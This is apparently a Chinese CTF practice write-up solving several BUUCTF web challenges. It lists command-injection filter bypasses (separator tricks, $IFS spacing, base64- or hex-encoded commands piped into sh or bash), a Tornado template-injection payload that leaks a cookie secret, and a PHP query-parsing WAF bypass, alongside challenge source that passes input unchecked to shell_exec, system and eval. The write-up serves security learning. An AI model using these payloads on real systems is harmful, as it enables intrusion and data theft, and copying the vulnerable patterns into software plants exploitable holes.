


BuuCTF Web类型题练习 1¶
1 GXYCTF2019 Ping Ping Ping¶
根据提示，可判断应该是考命令注入 ，输入 ?ip=127.0.0.1|id ?ip=127.0.0.1|ls
命令联合执行¶
; 前面的执行完执行后面的
| 管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）
|| 当前面的执行出错时（为假）执行后面的
& 将任务置于后台执行
&& 前面的语句为假则直接出错，后面的也不执行，前面只能为真
%0a （换行）
%0d （回车）
命令执行绕过空格¶
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
<
<>
{cat,flag.php} //用逗号实现了空格功能，需要用{}括起来
%20 (space)
%09 (tab)
X=$'cat\x09./flag.php';$X （\x09表示tab，也可以用\x20）
ps:有时会禁用cat: 解决方法是使用tac反向输出命令： linux命令中可以加\，所以甚至可以ca\t /fl\ag
内联执行¶
?ip=127.0.0.1;cat$IFS$9`ls`
$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字
这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
命令执行其他绕过¶
1.cat fl* 利用*匹配任意
2.echo "Y2F0IGZsYWcucGhw"| base64 -d | bash
3.ca\t fl\ag.php
4.cat fl''ag.php
过滤的bash用sh+管道替换¶
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
类似答题解题思路¶
cat fl* 用*匹配任意
cat fla* 用*匹配任意
ca\t fla\g.php 反斜线绕过
cat fl''ag.php 两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash
//base64编码绕过(引号可以去掉) |(管道符) 会把前一个命令的输出作为后一个命令的参数
echo "63617420666c61672e706870" | xxd -r -p | bash
//hex编码绕过(引号可以去掉)
echo "63617420666c61672e706870" | xxd -r -p | sh
//sh的效果和bash一样
cat fl[a]g.php 用[]匹配
a=fl;b=ag;cat $a$b 变量替换
cp fla{g.php,G} 把flag.php复制为flaG
ca${21}t a.txt 利用空变量 使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的
通配符
* #匹配全部字符，通配符
? #任意一个字符，通配符
[] #表示一个范围（正则，通配符）
{} #产生一个序列（通配符）
利用$IFS$1绕过空格，可以读取index.php¶
?ip=127.0.0.1|cat$IFS$1index.php
/?ip=
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
die("fxck your symbol!");
} else if(preg_match("/ /", $ip)){
die("fxck your space!");
} else if(preg_match("/bash/", $ip)){
die("fxck your bash!");
} else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
die("fxck your flag!");
}
$a = shell_exec("ping -c 4 ".$ip);
echo "
";
print_r($a);
}
?>
从源码可得被过滤的字符串和符号¶
& / ？ * < x{00}-\x{1f} ' " \ () [] {} 空格
"xxxfxxxlxxxaxxxgxxx" 顺序出现flag四个字符
" " "bash"
方法一：变量替换¶
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
?ip=127.0.0.1;a=g;b=fla;cat$IFS$1$b$a.php
方法二：sh替换bash¶
base64:
?ip=127.0.0.1|echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
方法三：内联执行¶
?ip=127.0.0.1|cat$IFS$1`ls`
2 ACTF2020 新生赛 Exec¶
访问后输入127.0.01提交抓包

可以执行命令 ls
查看index.php文件内容
<?php
if (isset($_POST['target'])) {
system("ping -c 3 ".$_POST['target']);
}
?>
得知没有做任何限制
flag存在根目录下
3 护网杯 2018 easy_tornado¶
本题目考察模板注入
参考ssti模板注入
三个文件的内容：
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
根据题目提示，flag在fllllllllllllag文件中，但是目前不知道fllllllllllllag的filehash
file?filename=/fllllllllllllag&filehash=b7ff1f18cbd7a5b4a2bbac4b3932682a
由于提示模板注入，测试，操作符被过滤
error?msg={{8}}
>> 8
error?msg={{8*9}}
>> ORZ
tornado通过模板注入用handler.settings对象可以获取cookie
error?msg={{handler.settings}}
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': 'a5bb9a91-55c8-4c78-9b26-ca07b50fda5f'}
根据前面的提示，md5(cookie_secret+md5(filename))
因此可以得到fllllllllllllag的filehash
md5(/fllllllllllllag) = 3bf9f6cf685a6dd8defadabfb41a03a1
filehash=md5(a5bb9a91-55c8-4c78-9b26-ca07b50fda5f3bf9f6cf685a6dd8defadabfb41a03a1)=f9b967034472207aa5900e5dd923a310
payload:
file?filename=/fllllllllllllag&filehash=f9b967034472207aa5900e5dd923a310
成功得到flag

4 极客大挑战 2019 Knife¶
根据提示连接一句话，然后根目录可以翻到flag
5 RoarCTF 2019 Easy Calc¶
查看页面源代码
<!--I've set up WAF to ensure security.-->
<script>
$('#calc').submit(function(){
$.ajax({
url:"calc.php?num="+encodeURIComponent($("#content").val()),
type:'GET',
success:function(data){
$("#result").html(`<div class="alert alert-success">
<strong>答案:</strong>${data}
</div>`);
},
error:function(){
alert("这啥?算不来!");
}
})
return false;
})
</script>
知识点2 $("#content").val() ：¶
获取id为content的HTML标签元素的值,是JQuery, $("#content")相当于document.getElementById("content"); $("#content").val()相当于 document.getElementById("content").value;
知识点2 PHP的字符串解析特性¶
PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：
1.删除空白符
2.将某些字符转换为下划线（包括空格）【当waf不让你过的时候，php却可以让你过】
例1 ：
/?foo=bar变成Array([foo] => “bar”)。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。
例2：
/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：
/news.php?%20news[id%00=42"+AND+1=0–
知识点3 scandir()¶
scandir — 列出指定路径中的文件和目录
说明
scandir( string $directory[, int $sorting_order[, resource $context]] ) : array
返回一个 array，包含有 directory 中的文件和目录。
方法一：利用php解析特性¶
过滤了\，使用chr(47)代替
根目录存在f1agg文件
注意：文件名中是1二不是l
payload:
calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
方法二：http走私¶
http走私
<?php
error_reporting(0);
if(!isset($_GET['num'])){
show_source(__FILE__);
}else{
$str = $_GET['num'];
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
foreach ($blacklist as $blackitem) {
if (preg_match('/' . $blackitem . '/m', $str)) {
die("what are you want to do?");
}
}
eval('echo '.$str.';');
}
?>
可以看到源代码